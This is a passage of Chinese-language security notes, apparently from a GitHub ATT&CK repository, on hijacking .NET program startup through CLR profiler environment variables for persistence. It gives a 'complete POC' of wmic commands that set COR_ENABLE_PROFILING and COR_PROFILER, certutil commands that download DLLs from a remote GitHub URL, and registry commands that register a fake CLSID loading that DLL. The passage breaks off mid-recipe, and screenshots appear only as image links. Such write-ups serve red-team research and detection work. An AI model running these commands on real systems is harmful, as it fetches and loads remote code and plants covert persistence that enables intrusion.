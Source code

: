 ![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/e9d6684487c895bfb2b997ed4c92665a.png)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/56df69bbbd0ec6d84e8db7528f2bef53.png)

使用CLR能够劫持所有.Net程序的启动，但是只能作用于当前cmd

作用于全局(修改环境变量)

修改系统变量（需要管理员权限）：

wmic ENVIRONMENT create name="1",username="\<system\>",VariableValue="1"

修改当前用户变量（当前用户权限）：

wmic ENVIRONMENT create name="2",username="%username%",VariableValue="2"

需要系统重启或注销重新登录才能生效

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/80d6536408483d64fc6dd19e9d807686.png)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/e67b975fa7c718d93e7bd6c3bdd785e4.png)

注销或重启后:

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/a3a2baa841a27e35da112b6b81a7a13b.png)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/281af07c660b1241ef448d79c06b65e5.png)

完整POC:

wmic ENVIRONMENT create
name="COR_ENABLE_PROFILING",username="%username%",VariableValue="1"

wmic ENVIRONMENT create
name="COR_PROFILER",username="%username%",VariableValue="{11111111-1111-1111-1111-111111111111}"

certutil.exe -urlcache -split -f
https://raw.githubusercontent.com/3gstudent/test/master/msg.dll

certutil.exe -urlcache -split -f
https://raw.githubusercontent.com/3gstudent/test/master/msg.dll delete

certutil.exe -urlcache -split -f
https://raw.githubusercontent.com/3gstudent/test/master/msg_x64.dll

certutil.exe -urlcache -split -f
https://raw.githubusercontent.com/3gstudent/test/master/msg_x64.dll delete

SET
KEY=HKEY_CURRENT_USER\\Software\\Classes\\CLSID\\{11111111-1111-1111-1111-111111111111}\\InProcServer32

REG.EXE ADD %KEY% /VE /T REG_SZ /D "%CD%\\msg_x64.dll" /F

REG.EXE ADD %KEY% /V ThreadingModel /T REG_SZ /D Apartment /F

SET
KEY=HKEY_CURRENT_USER\\Software\\Classes\\WoW6432Node\\CLSID\\{11111111-1111-1111-1111-111111111111}\\InProcServer32
